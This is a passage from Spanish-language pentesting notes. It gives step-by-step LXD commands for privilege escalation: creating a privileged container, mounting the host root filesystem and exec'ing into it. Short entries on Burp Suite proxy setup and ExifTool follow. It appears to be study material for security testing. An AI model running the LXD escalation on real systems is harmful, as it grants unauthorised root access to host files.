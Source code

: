 	Importar la imagen descargada a LXD:

	***Comando***: lxc image import lxd.tar.xz rootfs.squashfs --alias alpine


	Crear y ejecutar un nuevo contenedor utilizando la imagen importada:

	***Comando***: lxc init alpine my-container -c security.privileged=true


	Montar el sistema de archivos del host en el contenedor:

	***Comando***: lxc config device add my-container host-root disk source=/ path=/mnt/root recursive=true


	Iniciar y unirse al contenedor:

	***Comando***: lxc start my-container
	***Comando***: lxc exec my-container /bin/sh


	Navegar al directorio /mnt/root dentro del contenedor, que ahora es un punto de montaje del sistema de archivos del host:

	***Comando***: cd /mnt/root

	Una vez dentro del contenedor, tendrás acceso completo al sistema de archivos del host y podrás explorarlo para buscar información sensible o modificar archivos según sea necesario. 
	Esto efectivamente escala tus privilegios en el sistema.
	Es importante destacar que este método de escalado de privilegios solo funcionará si el usuario actual tiene acceso al grupo LXD en el sistema comprometido y si LXD está mal configurado o no tiene 	las restricciones de seguridad adecuadas.
	Además, este método no funcionará si el sistema no tiene LXD instalado.



- ***Burp Suite***: Plataforma integrada para realizar pruebas de seguridad de aplicaciones web. Su funcionalidad incluye interceptación y modificación de solicitudes, escaneo automático de vulnerabilidades, repetidor (para manipular y reenviar solicitudes individuales), decodificador de datos y mucho más.

	***Ejemplo de comando***: No es una herramienta de línea de comandos, pero es ampliamente utilizada para el pentesting y la configuración sería la siguiente:

	Abre Burp Suite.
  	En la pestaña "Proxy" -> "Options" -> "Add", asegúrate de tener un listener en la interfaz de bucle invertido (127.0.0.1) en el puerto 8080 (o el puerto que prefieras).
  	Configura tu navegador para que use el proxy de Burp Suite (127.0.0.1 en el puerto 8080) para el tráfico HTTP y HTTPS.
  	Habilita la intercepción en la pestaña "Intercept" y navega por la web. El tráfico se interceptará en Burp Suite, permitiéndote analizar y modificar las solicitudes.
  	Para escanear automáticamente las vulnerabilidades, puedes utilizar la pestaña "Scanner" y para reenviar las solicitudes modificadas, puedes utilizar la herramienta "Repeater".


 
- ***ExifTool***: Es una herramienta de línea de comandos utilizada para leer, escribir y manipular metadatos en una variedad de archivos, particularmente fotos y vídeos. Los metadatos pueden incluir detalles como el modelo de la cámara, la longitud focal, la hora en que se tomó la foto, la ubicación (si el dispositivo tenía GPS) y más.
